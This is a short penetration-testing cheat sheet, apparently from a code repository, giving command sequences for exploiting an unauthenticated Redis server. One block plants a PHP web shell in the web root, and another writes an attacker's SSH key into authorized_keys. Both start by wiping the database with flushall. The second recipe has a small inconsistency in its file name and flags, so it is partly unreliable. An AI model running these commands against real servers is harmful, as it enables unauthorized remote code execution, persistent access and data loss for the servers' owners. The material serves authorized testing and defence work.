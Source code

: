 ### Web Shell

* [https://book.hacktricks.xyz/pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)

```
$ redis-cli -h 127.0.0.1 flushall
$ redis-cli -h 127.0.0.1 set pwn '<?php system($_REQUEST['cmd']); ?>'
$ redis-cli -h 127.0.0.1 config set dbfilename shell.php
$ redis-cli -h 127.0.0.1 config set dir /var/www/html
$ redis-cli -h 127.0.0.1 save
```



### SSH Public Key

* [https://github.com/Avinash-acid/Redis-Server-Exploit](https://github.com/Avinash-acid/Redis-Server-Exploit)

```
$ ssh-keygen -t ecdsa -s 521 -f key
$ (echo -e "\n\n"; cat key.pub; echo -e "\n\n") > key.txt
$ redis-cli -h 127.0.0.1 flushall
$ cat foo.txt | redis-cli -h 127.0.0.1 -x set pwn
$ redis-cli -h 127.0.0.1 config set dbfilename authorized_keys
$ redis-cli -h 127.0.0.1 config set dir /var/lib/redis/.ssh
$ redis-cli -h 127.0.0.1 save
```
